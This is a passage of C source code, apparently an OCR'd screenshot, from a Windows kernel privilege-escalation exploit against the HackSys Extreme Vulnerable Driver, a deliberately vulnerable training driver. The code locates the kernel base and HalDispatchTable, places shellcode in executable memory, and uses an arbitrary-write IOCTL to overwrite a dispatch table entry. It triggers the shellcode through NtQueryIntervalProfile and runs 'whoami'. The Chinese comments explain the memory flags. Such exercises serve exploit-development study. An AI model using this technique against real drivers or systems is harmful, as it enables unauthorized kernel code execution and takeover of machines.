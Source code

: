 ```c
			}
		}
	}
	else
	{
		printf("Enumerate Device Drivers failed\n");
		return 0;
	}

	printf("driver name is: %s\n", driverName);

	ntkrnlpaUserBase = LoadLibrary(driverName);
	if (!ntkrnlpaUserBase) {
		printf("LoadLibrary failed\n");
	}

	halDispatchTableAddress = GetProcAddress(ntkrnlpaUserBase, "HalDispatchTable");

	DWORD32 whereAddress = (DWORD32)driversAddress[ntkrnlpaKernelBase] +  (DWORD32)halDispatchTableAddress - (DWORD32)ntkrnlpaUserBase + 0x4;
	
	HANDLE hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);

	// 0x3000 等同于MEM_COMMIT | MEM_RESERVE, 即预留并提交该块内存
	// 0x40 指示了分配的页面的保护属性, 其值等同于PAGE_EXECUTE_READWRITE, 即可读可写可执行
	LPVOID ptr = VirtualAlloc(0, sizeof(shellcode), 0x3000, 0x40);
	RtlCopyMemory(ptr, shellcode, sizeof(shellcode));

	payload -> what = (PULONG_PTR) & ptr ;
	payload -> where = (PULONG_PTR) whereAddress;

	DeviceIoControl(hDevice, 0x0022200B, (LPVOID) payload, sizeof(Payload), NULL, 0, &BytesReturned, NULL);

	HMODULE ntdll = LoadLibrary("ntdll.dll");
	ULONG Interval = 0;

	if (!ntdll) {
		printf("load ntdll.dll failed\n");
		return 0;
	}

	NtQueryIntervalProfile_t NtQueryIntervalProfile = (NtQueryIntervalProfile_t)GetProcAddress(ntdll, "NtQueryIntervalProfile");

	if (!NtQueryIntervalProfile) {
		printf("ntqueryintervalprofile get failed\n");
		return 0;
	}

	NtQueryIntervalProfile(0x1337, &Interval);

	system("whoami");

	return 0;
}

```
